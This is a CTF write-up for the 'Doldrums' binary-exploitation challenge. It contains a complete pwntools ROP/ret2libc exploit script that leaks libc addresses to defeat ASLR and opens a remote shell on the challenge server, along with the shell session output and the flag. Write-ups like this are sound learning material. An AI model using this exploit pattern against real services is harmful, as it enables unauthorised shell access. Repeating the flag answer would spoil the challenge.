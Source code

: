 # Doldrums
Without wind, no ship can sail.

This one is really secure. I promise!

```
nc 46.101.107.117 2113
```

Get a shell and read the flag.

[doldrums](doldrums)

---

This time the binary is different:
```
$ file
doldrums: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=d035ad0d34a664be7426cd2196a55c38438e19cc, stripped
```

I took the exact same approach as in [Sailor's Knot](../../level7/sailors-knot/README.md) (_which was
an overkill back then but a proper solution for this one_).

Here is my Python script:
```python
from pwn import *

elf = ELF("doldrums")
rop = ROP(elf)

# First ROP payload to get current puts address (for bypassing ASLR)
rop.call("puts", [elf.got["puts"]])
rop.raw(b"\xe6\x85\x04\x08")  # Main method
print(rop.dump())

# p = elf.process()  # Local testing
p = remote("46.101.107.117", 2113)

p.recvuntil("\n")
p.recvuntil("\n")
p.sendline(b'A' * 13 + rop.chain())
p.recvuntil("Ancient_Mariner\n")
p.recvuntil("\n")

puts_address = u32(p.recvuntil("\n")[:4].ljust(4, b"\x00"))  # put address (first 4 bytes)
print("remote puts address: " + hex(puts_address))  # Address changes with each run (ASLR)

# 'put' address always ends with 460 (ASLR doesn't change last 3 values because of paging)
# we can do the same exercise for 'gets', the address always ends with be0
# using https://libc.blukat.me/ we can determine the exact libc version which is libc6-i386_2.27-3ubuntu1.4_amd64.so

# libc = ELF("libc6_2.31-3_amd64.so")  # Local testing
libc = ELF("libc6-i386_2.27-3ubuntu1.4_amd64.so")

# Set libc base address (current puts address - libc puts offset, 0x067460 in this version)
libc.address = puts_address - libc.symbols["puts"]
print("libc base address: " + hex(libc.address))

# Second payload to get a remote shell
rop = ROP(libc)
rop.call("system", [next(libc.search(b"/bin/sh\x00"))])
print(rop.dump())

p.sendline(b'A' * 13 + rop.chain())
p.interactive()
```

It outputs:
```
...
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ ls
challenge3
flag
heading
ynetd
$ cat flag
he2021{1nsp3ktorr_g4dg3t}
```

The flag is `he2021{1nsp3ktorr_g4dg3t}`